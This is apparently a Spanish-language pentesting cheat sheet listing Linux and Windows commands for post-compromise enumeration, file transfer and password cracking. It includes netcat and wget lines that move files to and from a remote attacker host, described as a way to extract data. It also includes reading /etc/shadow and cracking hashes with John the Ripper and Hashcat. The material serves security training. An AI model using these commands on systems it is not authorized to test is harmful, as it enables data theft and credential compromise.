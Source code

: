 # Compilar información de archivos en el destino

## Descripción
Recopilamos información sobre los archivos del sistema objetivo, como nombres, tamaños, permisos y fechas de modificación.

## Herramientas
Para recopilar información sobre un directorio, podemos hacerlo gracias a los comandos que tenemos en el sistema.

Linux:
`find /directorio/a/enumerar -type f -exec ls -l {} \;`

Windows:
`dir /s /p /q`
`tree /f`

# Enumerar información de red de archivos en el destino

## Descripción 
Recopilar detalles sobre la configuración de red del objetivo, como las interfaces, ip, rutas y firewall.

## Herramientas

Linux:
Para reconocer la red en linux, tenemos los distintos comandos.
`ip a`
`ip route`
`route -n`
`iptables -L`

Windows:
`ipconfig /all`
`route print`
`netstat -r`
`netstat -nabo`
`netsh firewall show state`

# Enumerar la información del sistema en el objetivo

## Descripción
Para enumerar la información del sistema, necesitaremos sacar la versión del sistema operativo, parches instalados, servicios en ejecución y hardware


## Herramientas

Linux:
`uname -a`
`lsb_release -a`
`ps aux`
`df -h`

Windows:
`systeminfo`
`tasklist`
`wmic qfe get Caption,Description,HotFixID,InstalledOn`

Info discos:
``wmic diskdrive get Caption, DeviceID, Size, MediaType
wmic logicaldisk get Name, Size, FreeSpace``


# Recopilar información de la cuenta de usuario en el objetivo

## Descripción
Obtener información sobre las cuentas de usuario en el sistema, incluyendo nombres de usuario, grupos y permisos

## Herramientas

Linux:
`cat /etc/passwd`
`cat /etc/group`
`id usuario`

Windows:
`net user`
`net group`


# Transferir archivos hacia y desde el destino
## Descripción
Transferir archivos hacia y desde el objetivo, puede ser útil para obtener herramientas en el objetivo y también para extraer datos.

## Herramientas
SSH:
`scp archivoPasar usuario@remoteip:/ruta/de/destino`
`scp usuario@remoteip:/ruta/del/archivo archivoCoger`

Python:
Con python podemos hacer un servidor web muy facilmente.
`python3 -m http.server 80`

Esto empezará un servidor web en el puerto 80, en el directorio que hayamos ejecutado el comando. Lo que nos permitirá coger cosas del servidor con un wget.
`wget ipPythonServer/archivo`

Netcat:

Emisor:
`nc remoteIP PORT < archivo`

Receptor:
`nc -nvlp PORT > archivo`

Esto transferirá el archivo. 

# Recopilar información de hash/contraseña del objetivo

## Descripción

Extraer hashes de contraseñas , tanto de base de datos como en scripts... E intentar crackearlas. También puede ser que encontremos alguna contraseña en texto plano.

## Herramientas
John the ripper:
Con esta herramienta podemos hacer ataques de fuerza bruta a hashes de contraseña.

Practica de ejemplo:
`unshadow /etc/passwd /etc/shadow > password.txt`

`john --wordlist=/path/to/dictionary password.txt`

`john --wordlist=/home/kali/contraas.txt  hash.txt --format=crypt ` "--format=crypt(sirve para yescrypt que es el hash de la pass de linux)"

`john --show password.txt`


Con john podemos adaptarnos a diferentes formatos de hash y tipos de archivos protegidos por contraseña. Existen unas herramientas que convierten estos archivos o hashes a un formato legible para john the ripper. Estas herramientas son programas conocidos como 2john. Ej:
zip2john -- rar2john -- pdf2john -- keepass2john...

Hashcat

Con esta herramienta también podemos hacer ataques de fuerza bruta a contraseñas.

Ejemplos de uso:

`hashcat -m 0 -a 0 hash.txt rockyou.txt`

Con -m especificamos el tipo de hash (MD5 en este caso)
-a especifica el modo de ataque (ataque de diccionario)
Primero se pone el archivo donde tenemos el hash a crackear y luego ponemos el diccionario 

![image](https://github.com/user-attachments/assets/3daaf128-cf9c-4f48-83ba-b08ff6b79b92)

Para saber el tipo de hash que es, podemos utilizar la herramienta de hash-identifier

